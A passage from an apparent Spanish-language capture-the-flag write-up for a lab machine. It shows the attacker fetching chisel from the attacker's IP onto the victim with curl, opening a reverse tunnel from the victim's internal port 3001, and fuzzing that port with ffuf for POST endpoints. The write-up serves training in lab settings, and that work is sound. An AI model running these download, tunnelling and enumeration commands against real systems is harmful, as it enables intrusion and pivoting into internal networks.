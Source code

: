 y lo obtenemos en nuestra maquina victima con `curl`.

```bash
curl http://192.168.1.181/chisel -O /tmp/chisel
chmod +x /tmp/chisel
```

Ahora reenviamos el puerto: en nuestra máquina atacante levantamos el servicio de chisel en el puerto `12312`.

```bash
chisel server -p 12312 --reverse
```

y en la máquina víctima redirigimos el puerto `3001` hacia la IP de nuestra máquina atacante.

```bash
/tmp/chisel client 192.168.1.181:12312 R:3001:127.0.0.1:3001
```

Ahora que podemos acceder al puerto desde nuestra máquina, lo analizamos en busca de endpoints vulnerables. Es importante destacar que existen endpoints accesibles únicamente mediante métodos HTTP distintos a GET, y que pueden responder con errores HTTP por diferentes motivos.

Con el método GET encontramos varios endpoints, pero ninguno vulnerable; todos corresponden a la ruta /api, a la que ya teníamos acceso desde fuera (cursodex.thl/api).

Como gobuster solo permite hacer fuzzing con el método GET, utilizamos `ffuf`, que es más versátil y permite probar otros métodos.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all
```

Los parámetros:

- -w: Diccionario a utilizar.
- -u: URL a escanear.
- -X POST: Enviar peticiones utilizando el método POST.
- -mc all: Mostrar páginas con cualquier código de estado HTTP.
- -fc 404: Filtrar (ocultar) solo las respuestas con estado 404 (página no encontrada).

```bash
─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all

        /'___\  /'___\           /'___\   
       /\ \__/ /\ \__/  __  __  /\ \__/   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/  
         \ \_\   \ \_\  \ \____/  \ \_\   
          \/_/    \/_/   \/___/    \/_/   

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

system                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 12ms]
System                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 7ms]
```